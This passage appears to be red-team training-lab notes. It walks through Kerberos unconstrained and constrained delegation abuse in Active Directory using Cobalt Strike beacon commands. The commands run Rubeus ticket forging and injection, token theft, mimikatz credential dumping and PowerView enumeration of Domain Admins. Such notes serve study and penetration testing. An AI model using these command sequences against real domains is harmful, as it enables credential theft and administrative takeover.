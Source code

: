     # Generate TGS from TGT
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /nowrap /ticket:doIFuj[...]lDLklP
    # Inject TGS in a sacrificial process
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=
    beacon> steal_token 2664
    beacon> ls \\dc-2.dev.cyberbotic.io\c$
      
    # 4 (b). For DOMAIN USER TGT : Inject the ticket and access the service.
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=
    beacon> steal_token 2664
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

    Constrained Delegation

    # Constrained Delegation (allows to request TGS for any user using its TGT)
      
    # 1. Identify the computer/User objects having Constrained Delegation is enabled
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
      
    # 2 (a). Dump the TGT of User/Computer Account having constrained Delegation enabled (use asktgt or NTLM hash)
    beacon> getuid
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
    # 2 (b). Using Machine/User NTLM Hash to generate TGT.
    beacon> mimikatz !sekurlsa::logonpasswords
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:sql-2$ /rc4:49d47d3af2329a410e6510a7ccd535c3 /nowrap
      
    # 3 (a). Use S4U technique to request TGS for delegated service using machines TGT (Use S4U2Proxy tkt)
    # /impersonateuser - Impersonating Domain Admin , So check the domain admins and use that. (in lab - nlamb, Administrator)
    beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
    beacon> powerpick Get-DomainGroupMember -Identity "Domain Admins" -Domain dev.cyberbotic.io -Recurse
      